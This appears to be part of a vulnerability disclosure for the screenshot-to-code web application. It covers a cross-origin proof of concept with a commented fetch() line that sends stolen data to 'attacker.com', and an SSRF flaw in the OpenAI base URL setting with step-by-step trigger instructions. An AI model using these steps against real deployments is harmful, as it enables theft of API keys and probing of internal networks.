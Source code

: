 ```html

      // In a real attack, this would be sent to an attacker's server
      // fetch('https://attacker.com/steal', {
      //   method: 'POST',
      //   body: JSON.stringify(data)
      // });
    })
    .catch(error => {
      document.getElementById('result').innerText = 'Error: ' + error;
      console.error('Error:', error);
    });
  </script>
</body>
</html>
```
4. Open the screenshot-to-code application in a browser and authenticate/configure settings
5. In the same browser, open the malicious HTML file from a different origin (e.g., from a local file or different domain)
6. Verify that the script can successfully access the API and retrieve sensitive information like API keys

## Server-Side Request Forgery (SSRF) via OpenAI Base URL Configuration

### Description
The application allows users to configure a custom base URL for OpenAI API requests through either an environment variable (`OPENAI_BASE_URL`) or through the settings dialog in the UI. This feature is intended to help users who need to use a proxy to access OpenAI's API due to regional restrictions. However, the application passes this user-provided URL directly to the OpenAI client without proper validation or sanitization. This can be exploited to make the server send requests to arbitrary internal or external servers.

Step by step to trigger the vulnerability:
1. Access the screenshot-to-code application
2. Navigate to the settings dialog (click the gear icon)
3. Set a malicious URL in the OpenAI base URL field, such as `http://internal-server.local:8080/v1` or `http://attacker-controlled-server.com/v1`
4. Submit a screenshot for processing
5. The application will make API requests to the specified URL, potentially accessing internal services or sending sensitive information to the attacker's server

### Impact
This vulnerability has severe impact because:
1. It allows attackers to scan and probe internal networks from the server, potentially discovering services not intended for public access
2. It could enable access to internal services that don't require authentication when accessed from within the network
3. API keys and other sensitive information might be leaked to attacker-controlled servers
4. The server could be used as a proxy to attack other systems, masking the attacker's identity

